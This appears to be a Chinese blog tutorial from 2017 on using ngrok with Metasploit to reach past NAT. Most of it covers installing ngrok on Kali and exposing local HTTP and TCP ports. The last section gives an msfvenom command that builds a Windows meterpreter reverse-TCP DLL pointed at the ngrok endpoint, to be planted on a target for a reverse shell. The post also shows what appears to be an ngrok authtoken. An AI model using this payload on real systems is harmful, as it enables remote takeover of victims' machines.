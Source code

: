 ```yaml
---
title: Ngrok加Metasploit实现内网穿透
date: 2017-12-16 12:00:15
tags: 
	- Metasploit
categories:
	- Metasploit
	
---
```



![](https://ws1.sinaimg.cn/large/006Y6f53gy1fnlujkpcttj30jz09bt9z.jpg)
<!--more-->

#### 实例讲解
##### 0x00.
`demon`之前发了一篇`Ngrok&MSF`(内网穿)的文章，由于没时间，现在正好有时间过来测试下。

感谢`demon`的耐心教导。
 
ngrok 是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。ngrok 可捕获和分析所有通道上的流量，便于后期分析和重放。

Ngrok的下载地址:[https://ngrok.com/download](https://ngrok.com/download)



下面以我的Kali Linux 为例子，下载ngrok。
![](https://i.imgur.com/t5PHWUU.png)

解压后得出，ngrok包
 
![](https://i.imgur.com/vXLf7Nc.png)
 

##### 0X01.
我选择将ngrok复制到/bin


![](https://i.imgur.com/euXlQ9K.png)

##### 0X02.HTTP


![](https://i.imgur.com/44jOhtG.png)


##### 1.安装你的token

去`ngrok`的官网找到你的`token`

> `ngrok  authtoken  6RBm_2CfWq3xAJ3XVK`



根据官方文档 使用`http`的时候 使用`ngrok http 80`(将本地`80`端口映射到`ngrok`外网)，比如我们本机开启了`80`端口（`apache`）需要映射到外网。
开启`apache`服务` 80`端口

![](https://i.imgur.com/fQ3EUYY.png)

![](https://i.imgur.com/xSyAcEh.png)

本机中的`localhost`

![](https://i.imgur.com/2Ne8Jk5.png)


图中可以看到，已将本机的`80`端口映射到` ngrok.io`中

> `ngrok http 80`

![](https://i.imgur.com/dHDnZh5.png)


我们可以来验证下： `http://xxxx571a.ngrok.io `中是否有映射。

![](https://i.imgur.com/5j32G17.png)

![](https://i.imgur.com/FSzXSD2.png)

##### 0x03 TCP
 
配置完了`Ngrok` 上个试了下`http`，我再来试试`TCP`
 



我们使用 `ngrok` 帮助参数 `tcp`

![](https://i.imgur.com/0yJPBDQ.png)

`ngrok tcp 6666` 将本机的`6666`映射到`ngrok`的外网中。

![](https://i.imgur.com/wbepUhs.png)

</br>
![](https://i.imgur.com/jzaOSIv.png)


##### 0x04 Metasploit


    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(ip填写对应的ngrok对应的ip或者对应的ngrok对应的域名地址也可以) LPORT=(端口填写对应的ngrok的映射的端口) -f dll > /opt/x.dll


放入目标机子上得到反弹

![](https://i.imgur.com/hmIDtin.png)


**总结：**

- 利用ngrok,我们可以实现内网穿透。 


